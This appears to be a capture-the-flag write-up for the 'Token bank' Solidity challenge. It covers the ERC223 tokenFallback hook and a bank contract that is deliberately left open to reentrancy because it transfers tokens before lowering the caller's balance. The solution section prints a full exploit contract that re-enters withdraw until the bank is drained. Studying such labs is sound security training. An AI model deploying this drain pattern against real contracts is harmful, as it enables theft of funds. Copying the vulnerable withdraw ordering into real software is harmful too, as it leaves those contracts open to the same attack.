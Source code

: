 # Catch the Ether 7: Token bank

Goal is to understand ERC223 token standard and a re-entrency vulnerablity.

## The Task Intro

I created a token bank. It allows anyone to deposit tokens by transferring them to the bank and then to withdraw those tokens later. It uses [ERC 223](https://github.com/ethereum/EIPs/issues/223) to accept the incoming tokens.

The bank deploys a token called “Simple ERC223 Token” and assigns half the tokens to me and half to you. You win this challenge if you can empty the bank

## The Task Code

```apache
pragma solidity ^0.4.21;

interface ITokenReceiver {
    function tokenFallback(address from, uint256 value, bytes data) external;
}

contract SimpleERC223Token {
    // Track how many tokens are owned by each address.
    mapping (address => uint256) public balanceOf;

    string public name = "Simple ERC223 Token";
    string public symbol = "SET";
    uint8 public decimals = 18;

    uint256 public totalSupply = 1000000 * (uint256(10) ** decimals);

    event Transfer(address indexed from, address indexed to, uint256 value);

    function SimpleERC223Token() public {
        balanceOf[msg.sender] = totalSupply;
        emit Transfer(address(0), msg.sender, totalSupply);
    }

    function isContract(address _addr) private view returns (bool is_contract) {
        uint length;
        assembly {
            //retrieve the size of the code on target address, this needs assembly
            length := extcodesize(_addr)
        }
        return length > 0;
    }

    function transfer(address to, uint256 value) public returns (bool success) {
        bytes memory empty;
        return transfer(to, value, empty);
    }

    function transfer(address to, uint256 value, bytes data) public returns (bool) {
        require(balanceOf[msg.sender] >= value);

        balanceOf[msg.sender] -= value;
        balanceOf[to] += value;
        emit Transfer(msg.sender, to, value);

        if (isContract(to)) {
            ITokenReceiver(to).tokenFallback(msg.sender, value, data);
        }
        return true;
    }

    event Approval(address indexed owner, address indexed spender, uint256 value);

    mapping(address => mapping(address => uint256)) public allowance;

    function approve(address spender, uint256 value)
        public
        returns (bool success)
    {
        allowance[msg.sender][spender] = value;
        emit Approval(msg.sender, spender, value);
        return true;
    }

    function transferFrom(address from, address to, uint256 value)
        public
        returns (bool success)
    {
        require(value <= balanceOf[from]);
        require(value <= allowance[from][msg.sender]);

        balanceOf[from] -= value;
        balanceOf[to] += value;
        allowance[from][msg.sender] -= value;
        emit Transfer(from, to, value);
        return true;
    }
}

contract TokenBankChallenge {
    SimpleERC223Token public token;
    mapping(address => uint256) public balanceOf;

    function TokenBankChallenge(address player) public {
        token = new SimpleERC223Token();

        // Divide up the 1,000,000 tokens, which are all initially assigned to
        // the token contract's creator (this contract).
        balanceOf[msg.sender] = 500000 * 10**18;  // half for me
        balanceOf[player] = 500000 * 10**18;      // half for you
    }

    function isComplete() public view returns (bool) {
        return token.balanceOf(this) == 0;
    }

    function tokenFallback(address from, uint256 value, bytes) public {
        require(msg.sender == address(token));
        require(balanceOf[from] + value >= balanceOf[from]);

        balanceOf[from] += value;
    }

    function withdraw(uint256 amount) public {
        require(balanceOf[msg.sender] >= amount);

        require(token.transfer(msg.sender, amount));
        balanceOf[msg.sender] -= amount;
    }
}
```

## The Solution

This challenge gives an intro in the ERC223 standard. The problem this standard addresses are lost tokens on contract addresses. If a user sends tokens to a contract address most of the time the tokens are lost, because most of the times the smart contract is not made to receive tokens or send them back.

Therefore ERC223 introduces an Interface the smart contract needs to implement that it can receive tokens.

The problem with the implementation here is there are two balanceOf methods, the first one on the token itself, the second on the bank. The bank holds all the tokens on its address. By doing a `token.transfer(msg.sender,amount)` on the bank level, a smart contract calling the withdraw function can implement the ERC 223 tokenfallback interface. After the token are transfered, the interface is called from the token and allows the interface implementer to reenter the same function.

My solution is a smart contract that implements that interface and therefore can steal all the tokens by re-entering the transfer function again and again.

```apache
contract Crack is ITokenReceiver {
    TokenBankChallenge private tbc;

    function Crack() public {
        tbc = new TokenBankChallenge(this);
    }

    function tokenFallback(address from, uint256 value, bytes data) external {
        if (tbc.isComplete() == false) {
            tbc.withdraw(500000 * 10 ** 18);
        }
    }

    function attack() {
        tbc.withdraw(500000 * 10 ** 18);
    }

    function getTokenBank() view returns (address) {
        return address(tbc);
    }
}
```
